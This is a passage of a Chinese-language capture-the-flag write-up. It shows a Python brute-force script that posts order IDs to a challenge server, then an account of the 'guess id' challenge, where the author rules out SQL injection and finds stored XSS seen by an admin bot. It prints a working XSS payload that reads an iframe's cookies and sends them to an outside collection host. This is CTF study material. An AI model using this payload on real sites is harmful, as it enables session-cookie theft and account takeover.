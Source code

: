 ```
            url1 = "http://120.132.95.234/api.php?action=report"
            s = requests.post(url=url1, data=data, headers=header, cookies=cookie, timeout=10)
            print str(dingdan)+" "+s.content
        except:
            print str(dingdan) + " failed"
    except:
        print str(dingdan)+" failed"
```

跑了一会儿得到flag

```
9588 `{`"error":0,"msg":"Congradulations, your flag is flag`{`hong_mao_ctf_hajimaruyo`}`n"`}`
```



### <a class="reference-link" name="guess%20id"></a>guess id

此题巨坑<br>
题目给出了3个功能

```
1.注册
2.登录
3.修改个人信息
```

一开始我以为问题出在注册上<br>
在我疯狂测试后，发现身份证号和国籍如果过长，会让数据库抛出错误

```
注册失败, error: (_mysql_exceptions.DataError) (1406, "Data too long for column 'native_place' at row 1") [SQL: u'INSERT INTO user_info (name, password, id_card_number, `role`, age, native_place, status, create_time) VALUES (%s, %s, %s, %s, %s, %s, %s, %s)'] [parameters: (u'111111', '6512bd43d9caa6e02c990b0a82652dca', 'mJc4hgnmPywMze9yHhW05g==', 1, 18, 'MTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTExMTEx', 1, None)] (Background on this error at: http://sqlalche.me/e/9h9h)
```

于是我发现，mmp<br>
可控的身份证号和籍贯被base64后再进行数据库操作<br>
用户名直接只允许字母+数字，而密码是被md5后才进行操作<br>
所以根本不存在注入问题<br>
那么问题只能出在修改个人信息上了？<br>
这里我也是真的服了，不知道什么原因，我们修改个人信息，竟然后台会有Bot自动点，进行查看？<br>
我还是自己随便测试xss发现的……真的是为了出题而出题，服了<br>
但是事情并没有这么简单<br>
在我一顿测试后，发现payload

```
&lt;script&gt;
var i=document.createElement("iframe");
i.src="http://120.132.94.238/?user_search=admin";
i.id="a";
document.body.appendChild(i);
i.onload = function ()`{`
      var c=document.getElementById('a').contentWindow.document.cookie;
    location.href="http://ugelgr.ceye.io/?"+c;
`}`
&lt;/script&gt;
```
